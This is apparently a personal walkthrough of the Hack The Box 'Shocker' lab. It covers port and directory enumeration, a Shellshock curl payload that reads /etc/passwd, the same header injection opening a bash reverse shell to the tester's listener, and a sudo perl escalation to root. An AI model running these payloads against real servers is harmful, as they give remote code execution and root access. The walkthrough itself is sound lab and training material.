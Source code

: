 ![[Pasted image 20220623155820.png]]
#ShellShock 
# Enumeration
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -sV 10.10.10.56 > nmap.txt
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ cat nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 22:59 BST
Nmap scan report for 10.10.10.56
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

## Visual
Navigated to the site (apache is running) and saw this:
![[Pasted image 20220623162301.png]]
Page source doesn't contain a whole lot:
```html
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

## GoBuster
Gobuster directory enumeration results in the following:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/24 21:32:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Based on the below reading, I knew we were looking for a .sh file (assuming ShellShock) inside of /cgi-bin. I may have used a hammer here with the 'big.txt' wordlist, but it proved successful:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -e -u http://10.10.10.56/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/big.txt -x sh,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,php
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/06/24 22:54:56 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.56/cgi-bin/.htpasswd            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htaccess.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/.htpasswd.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htpasswd.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 118]
                                                                         
===============================================================
2022/06/24 22:57:17 Finished
===============================================================
```

## Reading
---
CGI-BIN is the only item here that looks unique and/or different. Performed some quick research and will attach that info here. Based on the version of apache and the name of the machine, we'll start looking into ShellShock and related exploits.

What is a CGI-Bin? - Definition from Techopedia
https://www.techopedia.com › ... › DevOps › CGI-Bin
A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website.

CGI - HackTricks
https://book.hacktricks.xyz › pentesting-web › cgi
The CGI scripts are perl scripts, so, if you have compromised a server that ... You could find this vulnerability noticing that it is using an old Apache ...

Apache HTTP Server Path Traversal & Remote Code ...
https://blog.qualys.com › 2021/10/27 › apache-http-ser...
Oct 27, 2021 — On October 4, 2021, Apache HTTP Server Project released Security advisory on a Path traversal and File disclosure vulnerability in Apache ...

Apache mod_cgi - 'Shellshock' Remote Command Injection
https://www.exploit-db.com › exploits
Oct 6, 2014 — CVE-2014-6278 CVE-2014-6271 . remote exploit for Linux platform. ... #!/usr/bin/env python from socket import * from threading import Thread ...

# Exploitation
---
From our previous gobuster results, we found 'user.sh'. Navigating to http://10.10.10.56/cgi-bin/user.sh downloads the file successfully. 
[GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271) Link to exploit and test environment

## POC
From the github link above, we ran this command against the machine and it did, in fact, cat out the /etc/passwd file. This indicates that we should be able to initiate a reverse shell (or send through any other command) successfully.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" 
 http://localhost:8080/cgi-bin/user.sh
```

## FootHold
Pulled the syntax for a bash reverse shell from this [Link](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) after my regular nc IP PORT command didn't take. I started netcat in a separate window and began the listener, ran this one through via my first terminal and confirmed a reverse shell.
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[/usr/share]
└──╼ [★]$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.56] 57980
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Navigated to ~, found user.txt, cat'd it out and submitted the flag.

## Privilege Escalation

Started with a typical sudo -l and found we can run perl as root:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Tried my hand at sudo perl -e /bin/bash but the syntax wasn't right (obviously). Identified the correct syntax via [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) 
```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```

Navigated to ~, cat'd out root.txt, submitted the flag.

## Failures
### SSH
Started with SSH and identified the following [Exploit](https://www.exploit-db.com/exploits/40136) via searchsploit and exploit-db.
Downloaded the script for later use. I don't think it will be SSH as the aforementioned exploit mostly revolves around user enumeration.

We'll maybe perform the user enumeration just in case.
Running the script gives me a paramiko error, so we'll get that installed as per the [Site](https://www.paramiko.org/installing.html)
```bash
pip install paramiko
```

Had to update the python script to utilize time.perf_counter() instead of time.clock() as it has been deprecated per this article [Link](https://stackoverflow.com/questions/58569361/attributeerror-module-time-has-no-attribute-clock-in-python-3-8) 

It seems like we're getting way too many hits on usernames and perhaps this isn't functioning as expected. I think I'm going to move on to apache enumeration, but we'll hold on to this line for later if we want to revisit:
```
python3 40136.py -U /usr/share/SecLists/Usernames/Names/names.txt 10.10.10.56:2222 > username.txt &
```
